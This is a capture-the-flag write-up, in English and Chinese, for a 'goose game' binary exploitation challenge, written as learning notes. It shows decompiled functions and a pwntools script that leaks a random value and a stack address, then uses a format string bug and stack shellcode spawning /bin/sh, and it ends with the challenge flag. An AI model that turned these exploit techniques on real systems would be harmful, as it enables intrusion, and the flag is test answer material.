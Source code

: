 # 1.0 Challenge
1. how to predict the rand ?
2. Python’s way of **getting the first byte as an integer**.
3. what position to format string
4. ret2libc or ret2shellcode
5. how to find buffer address
6. why need asm nop in shellcode

# 2.0 Analysis

CODE FLOW
write ur name
```
__int64 setuser()
{
  puts(
    "Welcome to the goose game.\n"
    "Here you have to guess a-priori, how many HONKS you will receive from a very angry goose.\n"
    "Godspeed.");
  printf("How shall we call you?\n> ");
  return __isoc99_scanf("%64s", username);
}
```

find random number -> next level
```
_BOOL8 guess()
{
  int v1; // [rsp+8h] [rbp-8h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  v1 = 0;
  i = 0;
  printf(
    "%s\n\nso %s. how many honks?",
    "\n"
    "                                                        _...--. \n"
    "                                        _____......----'     .' \n"
    "                                  _..-''                   .' \n"
    "                                .'                       ./ \n"
    "                        _.--._.'                       .' | \n"
    "                     .-'                           .-.'  / \n"
    "                   .'   _.-.                     .     ' \n"
    "                 .'  .'   .'    _    .-.        / `./  : \n"
    "               .'  .'   .'  .--' `.  |    |`. |     .' \n"
    "            _.'  .'   .' `.'       `-'    / |.'   .' \n"
    "         _.'  .-'   .'     `-.            `      .' \n"
    "       .'   .'    .'          `-.._ _ _ _ .-.    : \n"
    "      /    /o _.-'               .--'   .'      | \n"
    "    .'-.__..-'                  /..    .`    / .' \n"
    "  .'   . '                       /.'/.'     /  | \n"
    " `---'                                   _.'   ' \n"
    "                                       /.'    .' \n"
    "                                        /.'/.' \n",
    username);
  __isoc99_scanf("%d", &v1);
  putchar(10);
  for ( i = 0; i < nhonks; ++i )
    printf(" HONK ");
  putchar(10);
  return v1 == nhonks;
}
```

next level have more input 
```
int highscore()
{
  char buf[128]; // [rsp+0h] [rbp-170h] BYREF
  char s[128]; // [rsp+80h] [rbp-F0h] BYREF
  _BYTE v3[32]; // [rsp+100h] [rbp-70h] BYREF
  char format[80]; // [rsp+120h] [rbp-50h] BYREF

  strcpy(format, "wow %s you're so good. what message would you like to leave to the world?");
  printf("what's your name again?");
  __isoc99_scanf("%31s", v3);
  s[31] = 0;
  sprintf(s, format, v3);
  printf(s);
  read(0, buf, 0x400u);
  return printf("got it. bye now.");
}
```
# 3.0 Solution

前期准备
```
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
context.arch='amd64'
context.os = "linux"
 
pc = "./chall_patched"

scripts = """
break *highscore+281
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("34.45.81.67",16004)
        elf = ELF(pc)
        libc = elf.libc
 
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)
```

## 3.1 LEAK RAND 
因为scanf("%64s", username);
没有null terminate 所以如果我们刚刚好 64个 没有\x00
就会带出下一个byte which continue printing until it finds a `\x00`

所以 b'a' * 64 可以看到 多出一个 ) 
![[attachments/Pasted image 20250715004319.png]]

问题来了 怎样转成 int 
-> Python’s way of **getting the first byte as an integer**.
`guess = rc(1)[0]` 就ok 了 ????
第一次知道

```python
# dbgstart()
# p = b'a'*0x20
# leak random number  
sla("> ",b'a'*64)
ru(b'a'*64)
guess = rc(1)[0]
print("guess here >>",guess)
sla("honks?", str(guess).encode())
```

## 3.2 FORMAT STRING
what position to format string ????
为什么有 FS
![[attachments/Pasted image 20250715004658.png]]
这个很搞笑 我直接 %p
然后就有
![[attachments/Pasted image 20250715004719.png]]
然后就 gdb 找 这个是什么 tele xxxx
他是一个stack leak 没有什么用
这种时候 只能靠 offset 了
先把他变美美
```python
# format string
payload = b'%p %p %p %p %p %p %p %p'
sla("again?",payload)
ru("wow ")

# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
```

如果有leak 要想的是 ret2libc or ret2shellcode (NO NX)

ROP 我不会也找不到 libc 所以就算 shellcode
## 3.3 FIND BUFFER ADDRESS
how to find buffer address
开 dbgstart() 定位read 然后 send aaaabbbb
![[attachments/Pasted image 20250715005607.png]]
算offset 罢了 leak - buf = 0x150, stack leak - 0x150 就是 buf 了
```python
# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
sla("world?",b'aaaabbbb')
buf = 0x7ffd13969b20
leak = 0x7ffd13969c70
shellcode_offset =  leak - buf
shellcode_address = stack_leak - shellcode_offset
print("offset >>>",shellcode_offset)
print("shell addr >>>",hex(shellcode_address))
```

## 3.4 SHELLCODE FORMAT
rmb the ret2shellcode format 一定要记得有这个东西 
shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
我发现两个都可以用 然后 arch 要 amd64
```python
# shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
# shellcode = asm(shellcraft.sh())

# self shellcode payload 
payload = shellcode
payload += b'a'*(0x170 + 8 -len(shellcode))
payload += p64(shellcode_address)

```
4. why need asm nop in shellcode -> 感觉是不需要 可是 有人用 就 ok ?
```
# w2 payload
# payload = asm('nop')*100
# payload += shellcode
# payload += b'a'*(0x170 +8 - 100 -len(shellcode))
# payload += p64(stack_leak-0x150)
```

## 3.5 FULL SCRIPT
![[attachments/c2 2.py]]
# 4.0 FLAG 
find / -name * flag*
cat /flag

L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}
